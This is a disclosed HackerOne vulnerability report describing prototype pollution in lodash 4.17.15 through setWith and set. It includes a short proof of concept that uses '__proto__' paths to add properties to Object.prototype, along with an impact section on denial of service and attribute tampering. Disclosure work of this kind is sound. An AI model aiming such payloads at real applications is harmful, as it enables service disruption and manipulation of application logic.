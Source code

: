 # Prototype Pollution lodash 4.17.15

## Report Details
- **Report ID**: 864701
- **URL**: https://hackerone.com/reports/864701
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-02T11:10:22.062Z
- **Disclosed**: 2020-08-21T10:34:29.931Z

## Reporter
- **Username**: awarau
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Prototype Pollution in lodash version 4.17.15
It allows Denial of Service and more. 

# Module
**module name:** lodash
**version:** 4.17.15
**npm page:** `https://www.npmjs.com/package/lodash`

## Module Description

The Lodash library exported as Node.js modules.

## Module Stats

27M in the last week

# Vulnerability

## Vulnerability Description

## Steps To Reproduce:
1. Create a JS file with this contents:

lod = require('lodash')
lod.setWith({}, "__proto__[test]", "123")
lod.set({}, "__proto__[test2]", "456")
console.log(test)
console.log(test2)

2. Execute it with node
3. Observe that test and test2 are now on the Object.prototype.

## Supporting Material/References:

This is a variation on:
https://hackerone.com/reports/380873

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

## Impact

test and test2 could just have easily been toString(). This would allow an attacker to cause a denial of service as all objects inherit from the Object.prototype. 
Additionally, if there are sensitive variables and attributes in a particular application, these can be controlled via the prototype.

## Attachments
No attachments
